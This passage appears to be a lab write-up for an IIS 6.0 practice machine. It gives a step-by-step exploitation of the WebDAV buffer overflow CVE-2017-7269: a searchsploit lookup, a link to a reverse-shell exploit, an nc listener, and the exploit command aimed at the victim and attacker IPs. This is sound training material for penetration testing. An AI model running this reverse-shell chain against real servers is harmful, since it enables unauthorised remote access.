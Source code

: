#### This is the only one that fits:

```
crazyeights@es-base:~$ searchsploit -x windows/remote/41738.py
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
```

*   The exploitdb script does not work here. There are many version of this exploit available.

##### The only working version of the exploit:

*   Found by googling CVE-2017-7269 reverse shell

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
```

*   Download the exploit
*   Start the listener:

```
nc -lvp 1234
```

##### Run the exploit:

*   Command is in the format: `python [exploit] [VICTIM IP] [PORT] [ATTACKER IP] [LISTENER PORT]`

```
crazyeights@es-base:~$ python iis_webdav_20177269.py 10.10.10.14 80 10.10.14.11 1234
```

![](/assets/images/grandpa/gr2.png)
